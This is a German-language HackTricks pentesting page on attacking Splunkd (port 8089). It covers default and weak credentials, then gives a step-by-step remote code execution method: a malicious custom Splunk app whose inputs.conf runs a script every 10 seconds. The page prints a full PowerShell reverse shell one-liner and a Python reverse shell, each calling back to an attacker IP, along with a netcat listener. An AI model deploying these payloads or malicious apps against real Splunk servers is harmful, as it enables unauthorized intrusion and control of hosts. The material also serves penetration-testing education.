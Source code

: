 # 8089 - Pentesting Splunkd

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

## **Grundlegende Informationen**

Splunk ist ein **Protokollanalysetool**, das eine entscheidende Rolle beim **Sammlen, Analysieren und Visualisieren von Daten** spielt. Obwohl sein ursprünglicher Zweck nicht darin bestand, als **SIEM (Sicherheitsinformations- und Ereignisverwaltung)**-Tool zu dienen, hat es an Bedeutung im Bereich der **Sicherheitsüberwachung** und **Geschäftsanalyse** gewonnen.

Splunk-Implementierungen werden häufig verwendet, um **sensible Daten** zu speichern und können für potenzielle Angreifer eine **wertvolle Informationsquelle** darstellen, wenn es ihnen gelingt, das System zu kompromittieren. **Standardport:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Der **Splunk-Webserver läuft standardmäßig auf Port 8000**.
{% endhint %}

## Enumeration

### Kostenlose Version

Die Splunk Enterprise-Testversion wird nach 60 Tagen in eine **kostenlose Version umgewandelt**, die **keine Authentifizierung erfordert**. Es ist nicht ungewöhnlich, dass Systemadministratoren eine Testversion von Splunk installieren, um sie auszuprobieren, die **anschließend vergessen wird**. Diese wird automatisch in die kostenlose Version umgewandelt, die keine Form der Authentifizierung hat und somit ein Sicherheitsrisiko in der Umgebung darstellt. Einige Organisationen entscheiden sich möglicherweise aufgrund von Budgetbeschränkungen für die kostenlose Version, ohne die Auswirkungen eines fehlenden Benutzer-/Rollenmanagements vollständig zu verstehen.

### Standardanmeldeinformationen

In älteren Versionen von Splunk sind die Standardanmeldeinformationen **`admin:changeme`**, die bequemerweise auf der Anmeldeseite angezeigt werden.\
Jedoch setzt **die neueste Version von Splunk** **Anmeldeinformationen** **während des Installationsprozesses**. Wenn die Standardanmeldeinformationen nicht funktionieren, lohnt es sich, nach gängigen schwachen Passwörtern wie `admin`, `Welcome`, `Welcome1`, `Password123` usw. zu suchen.

### Informationen erhalten

Nach dem Anmelden bei Splunk können wir **Daten durchsuchen**, **Berichte ausführen**, **Dashboards erstellen**, **Anwendungen aus der Splunkbase-Bibliothek installieren** und benutzerdefinierte Anwendungen installieren.\
Sie können auch Code ausführen: Splunk hat mehrere Möglichkeiten, **Code auszuführen**, wie serverseitige Django-Anwendungen, REST-Endpunkte, skriptgesteuerte Eingaben und Alarmierungsskripte. Eine häufige Methode, um eine Remote-Codeausführung auf einem Splunk-Server zu erlangen, ist die Verwendung einer skriptgesteuerten Eingabe.

Darüber hinaus können skriptgesteuerte Eingaben erstellt werden, um Bash-, PowerShell- oder Batch-Skripte auf Windows- oder Linux-Hosts auszuführen.

### Shodan

* `Splunk build`

## RCE

### Benutzerdefinierte Anwendung erstellen

Eine benutzerdefinierte Anwendung kann **Python-, Batch-, Bash- oder PowerShell-Skripte ausführen**.\
Beachten Sie, dass **Splunk mit installiertem Python geliefert wird**, sodass Sie selbst auf **Windows**-Systemen Python-Code ausführen können.

Sie können [**diese**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk-Paket verwenden, um uns zu unterstützen. Das Verzeichnis **`bin`** in diesem Repository enthält Beispiele für [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) und [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Lassen Sie uns das Schritt für Schritt durchgehen.

Um dies zu erreichen, müssen wir zunächst eine benutzerdefinierte Splunk-Anwendung mit der folgenden Verzeichnisstruktur erstellen:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Der **`bin`**-Ordner wird alle **Skripte enthalten, die wir ausführen möchten** (in diesem Fall ein **PowerShell**-Reverse-Shell), und im Standardverzeichnis befindet sich unsere `inputs.conf`-Datei. Unsere Reverse-Shell wird ein **PowerShell-Einzeller** sein:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Die [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) Datei gibt Splunk an, **welches Skript ausgeführt werden soll** und alle anderen Bedingungen. Hier setzen wir die App als aktiviert und sagen Splunk, das Skript alle 10 Sekunden auszuführen. Das Intervall ist immer in Sekunden angegeben, und die Eingabe (Skript) wird nur ausgeführt, wenn diese Einstellung vorhanden ist.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Wir benötigen die `.bat`-Datei, die ausgeführt wird, wenn die Anwendung bereitgestellt wird, und führen den PowerShell-One-Liner aus.

Der nächste Schritt besteht darin, `Install app from file` auszuwählen und die Anwendung hochzuladen.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Bevor wir die bösartige benutzerdefinierte App hochladen, starten wir einen Listener mit Netcat oder [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Auf der `App hochladen` Seite klicken Sie auf Durchsuchen, wählen Sie das zuvor erstellte Tarball aus und klicken Sie auf `Hochladen`. Sobald wir die Anwendung hochgeladen haben, wird eine **umgekehrte Shell empfangen**, da der Status der Anwendung automatisch auf `Aktiviert` umgeschaltet wird.

#### Linux

Wenn wir es mit einem **Linux-Host** zu tun hätten, müssten wir das `rev.py` Python-Skript **bearbeiten**, bevor wir das Tarball erstellen und die benutzerdefinierte bösartige App hochladen. Der Rest des Prozesses wäre gleich, und wir würden eine umgekehrte Shell-Verbindung auf unserem Netcat-Listener erhalten und loslegen.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Auf der folgenden Seite finden Sie eine Erklärung, wie dieser Dienst missbraucht werden kann, um Berechtigungen zu eskalieren und Persistenz zu erlangen:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

